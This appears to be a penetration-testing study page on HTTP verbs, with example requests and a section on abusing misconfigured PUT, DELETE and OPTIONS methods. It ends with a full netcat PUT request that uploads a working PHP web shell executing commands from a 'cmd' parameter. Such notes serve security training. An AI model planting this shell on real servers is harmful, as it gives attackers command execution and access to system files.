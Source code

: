 # HTTP Verbs

## HTTP Verbs

### **GET**

* Used to request a resource.

```
GET /page.php HTTP/1.1
Host: www.example.site
```

* Can pass arguments. To pass "course=PTS" to page.php, the request will be:

```
GET /page.php?course=PTS HTTP/1.1
Host: www.example.site
```

### **POST**

* Used to submit HTML form data
* Parameters must be in the **message body**

```
POST /login.php HTTP/1.1
Host: www.example.site

username=john&password=mypass
```

### **HEAD**

* Asks just headers of the response instead of the response body

```
HEAD / HTTP/1.1
Host: www.example.site
```

### **PUT**

* Used to **upload** a file to the server
* very dangerous if it is allowed and misconfigured

```
PUT /path/to/destination HTTP/1.1
Host: www.example.site

<PUT data>
```

### **DELETE**

* Used to remove a file from the server
* must be configured wisely as a misused DELETE leads to DOS and data loss

```
DELETE /path/to/destination HTTP/1.1
Host: www.example.site
```

### **OPTIONS**

* Used to query the web server for enabled HTTP Verbs

```
OPTIONS / HTTP/1.1
Host: www.example.site
```

#### Rest APIs

* Represenbtational State Transfer Applicatoin Programming INterface
* Specific type of web app that reslies strongly on almosdt all HTTP verbs
* Common for these apps to use "PUT" for saving data/creating new content and not for saving files
* During a pentest, confirm impact of "PUT/DELETE" method twice before reporting it found
  * After issuing a PUT request, try to look for the existence of the file you created

## Using HTTP 1.0 Syntax

* Using HTTP 1.1 implies also sending a `Host:` header in the request.
* If you use HTTP 1.0, you can skip it

## Exploiting Misconfigured HTTP Verbs

### Enumeration with OPTIONS

* enumerate available methods or verbs

![](<../../../../.gitbook/assets/image (1).png>)

### Exploiting DELETE

![](<../../../../.gitbook/assets/image (21).png>)

![Logging in becomes impossible for every user](../../../../.gitbook/assets/image.png)

### Exploiting PUT

* you have to know the size of the file you want to upload on the server

![](<../../../../.gitbook/assets/image (10).png>)

* You can then use the size you got to build the PUT message
  * Example: Upload a page displaying info about the PHP installation on a server

![](<../../../../.gitbook/assets/image (6) (1).png>)

### Uploading a PHP Shell with PUT

![](<../../../../.gitbook/assets/image (11).png>)

* This can be used by passing our commands via the cmd GET parameter

![](<../../../../.gitbook/assets/image (20).png>)

* The shell has the same permissions of the web server it runs on.
* For example, we can write a file

![](<../../../../.gitbook/assets/image (17).png>)

* We can also read it

![](<../../../../.gitbook/assets/image (12).png>)

* And we can even read a system file

![](<../../../../.gitbook/assets/image (19).png>)

{% hint style="warning" %}
Remember that PUT requires that we pass the content length. So we have to know the shell size
{% endhint %}

![](<../../../../.gitbook/assets/image (14) (1).png>)

* We can then build a valid PUT request

```bash
nc victim.site 80
PUT /payload.php HTTP/1.0
Content-type: text/html
Content-length: 136

<?php
if (isset($_GET['cmd']))
{
        $cmd = $_GET['cmd'];
        echo '<pre>';
        $result = shell_exec($cmd);
        echo $result;
        echo '</pre>';
}
?>
```
